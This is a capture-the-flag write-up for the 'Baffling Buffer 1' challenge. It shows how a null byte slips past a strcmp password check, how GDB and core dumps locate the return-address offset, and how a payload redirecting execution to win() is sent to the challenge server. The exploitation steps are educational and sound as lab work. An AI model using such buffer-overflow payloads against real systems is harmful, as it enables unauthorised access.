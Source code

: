 # Baffling Buffer 1 - 225pts
After pointing out the initial issue, the developers issued a new update on the login service and restarted it at host1.metaproblems.com 5151. Looking at the binary and source code, you discovered that this code is still vulnerable.
<hr>

Looking at the source code, we notice that the flag is in an entirely different function, 'win()'. This means we will have to use a shellcode overflow in order to call that function. If we look at the 'vuln()' function, we notice a 'strcmp' between the buffer and "Sup3rs3cr3tC0de". Per the C docs:

"This function starts comparing the first character of each string. If they are equal to each other, it continues with the following pairs until the characters differ or until a terminating null-character is reached."

We can try to trick the 'strcmp' call by adding a null-terminating character to "Sup3rs3cr3tC0de" and then adding our overflow data. 

First, I simply ran `bb1` with "Sup3rs3cr3tC0de", a null-terminator, and some extra characters to see if it would segfault.

`python3 -c "print('Sup3rs3cr3tC0de\x00'+'a'*50)" | ./bb1`

As I thought, it segfaulted. Thus, we can modify our input to write over the return value and access the 'win()' function. First, we have to find that memory address though. This can be done using GDB.
```
$ gdb bb1
(gdb) break main
(gdb) run
(gdb) info address win
>> Symbol "win" is at 0x401172 in a file compiled without debugging.
```

Now, it's a bit of trial and error to find the correct value to overflow. We also need to enable core dumps that way we can check where exactly the program segfaults at.

```
$ ulimit -c unlimited
$ python3 -c "print('Sup3rs3cr3tC0de\x00'+'a'*41)" | ./bb1
>> Access granted!
>> zsh: done                              python3 -c "print('Sup3rs3cr3tC0de\x00'+'a'*41)" | 
>> zsh: segmentation fault (core dumped)  ./bb1
$ gdb -q -c core -ex quit
>> Core was generated by `./bb1'.
>> Program terminated with signal SIGSEGV, Segmentation fault.
>> #0  0x0000000000400061 in ?? ()
```

From here, we can see that the program terminates at 0x400061. 61 is the ASCII representation of 'a'. So, we have one too many A's being input. All we have to do is change to print 40 a's and then append our address in hex.

```
$ python3 -c "print('Sup3rs3cr3tC0de\x00'+'a'*40+'\x72\x11\x40')" | ncat host1.metaproblems.com 5151
>> Access granted!
```

And we retrived our flag.
